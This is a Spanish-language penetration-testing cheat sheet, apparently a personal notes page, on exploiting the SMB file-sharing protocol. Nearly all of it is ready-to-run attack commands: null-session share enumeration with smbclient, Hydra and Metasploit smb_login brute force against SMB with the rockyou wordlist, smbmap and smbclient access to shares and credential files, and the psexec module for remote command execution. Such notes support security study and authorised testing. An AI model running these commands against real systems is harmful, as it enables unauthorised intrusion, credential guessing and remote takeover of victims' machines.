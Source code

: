 
---

SMB son las siglas de Server Message Block, un protocolo de red para compartir archivos, impresoras y otros recursos entre computadoras en una red. Utiliza un modelo cliente-servidor, donde los clientes (como una PC) se conectan a un servidor para acceder a archivos, directorios o impresoras, y puede funcionar en diversos sistemas operativos como Windows, macOS y Linux


### Formas de Explotación 


*Enumerar los recursos compartidos de la red a traves del protocolo smb*

```bash
smbclient -L <Ipvictima> -N     # Enumerar recursos compartidos sin credenciales -N = nullsession
smbclient //<Ipvictima>/<RecursoCompartido> -N # Acceder al recurso sin tener contraseña
```

*Realizar fuerza bruta con [[Hydra]] para obtener credenciales de acceso por el puerto smb*

```bash
hydra -l <Usuario> -P /usr/share/wordlist/rockyou.txt smb://192.168.1.22 # Fuerza bruta al protocolo smb
```

*Listar recurso compartidos con contraseña*

```bash
smbclient -L //192.168.0.28 -U '<Usuario>' # Posterior a esto te pedira la contraseña de acceso 
smbmap -H <IPvictima> -u '<Usuario>' -p '<Contraseña>' # Listar recurso compartidos y ademas los permisos que se tienen en estos
smbmap -H <IPvictima> -u '<Usuario>' -p '<Contraseña>' -r ´'<folder>' # (Opcional) Si queremos entrar a un recurso
smbclient -U '<Usuario>' //192.168.0.28/<RecursoCompartido>  # Asi podremos acceder al recurso compartido que queramos proporcionando contraseña
smb > more <crendeciales.txt>  # Con este comando podemos visualizar archivos o documentos
```

---
#### Explotación con Metaesploit 

- Algunas formas y vulnerabilidades conocidas radican en [[Metasploit]] 

Un modulo que nos servirá para la explotación del protocolo smb es el siguiente:

```bash
msfconsole # Activamos metaesploit 
use auxiliary/scanner/smb/smb_login # Usamos el modulo de ataque 
showoptions
set RHOSTS <IpVictima>
set SMBUser <Usuario> # Lo colocamos en caso de saber cual es el usurio
set PASS_FILE /usr/share/wordlist/rockyou.txt # Cargamos el diccionario del cual queremos hacer el ataque de fuerza bruta
set VERBOSE false
run
```

- Luego de esto podemos probar si podemos tener control remoto de la maquina de la siguiente forma:

```bash
use exploit/windows/smb/psexec # modulo psexec para saber si podemos hacer ejecucion de comandos
show options 
set RHOSTS <Ipvictima>
set SMBUser <Usuario>
set SMBPass <Contraseña>
run    # Puede fallar si no esta habilidato el control remoto por psexec 
```


---



